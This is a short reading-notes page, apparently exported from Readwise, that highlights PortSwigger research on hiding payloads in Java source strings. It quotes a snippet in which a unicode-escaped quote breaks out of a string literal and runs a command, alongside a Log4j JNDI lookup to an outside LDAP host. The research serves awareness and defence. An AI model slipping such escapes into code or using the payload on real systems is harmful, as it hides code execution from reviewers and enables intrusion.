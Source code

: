 ```yaml
---
author: PortSwigger Research
aliases:
  - Hiding Payloads in Java Source Code Strings
tags:
  - readwise/articles
url: https://portswigger.net/research/hiding-payloads-in-java-source-code-strings
date: 2024-08-20
---
```

# Hiding Payloads in Java Source Code Strings

![rw-book-cover](https://portswigger.net/cms/images/5f/79/1603-twittercard-hidden-strings-twitter.png)

## Highlights


> What do you expect would happen when you use the following in a Bambda:
> ```java
var log4jpayload = "%24%7Bndi:ldap://psres.net/\u0022;Runtime.getRuntime().exec(\u0022open -a calculator\u0022);//%7D"; return requestResponse.request().contains(log4jpayload, false)
>```
>  If you were expecting a simple string assignment you'd be wrong. What actually happens is the Java compiler treats the unicode encoded double quote (\u0022) as a double quote and closes the string. Then Runtime.getRuntime() is executed along with the command passed with an encoded string. **Java pretty much allows you to encode the entire syntax with unicode escapes!**
> [View Highlight](https://read.readwise.io/read/01hnfvp927wah7be2r7pt9zq8t)

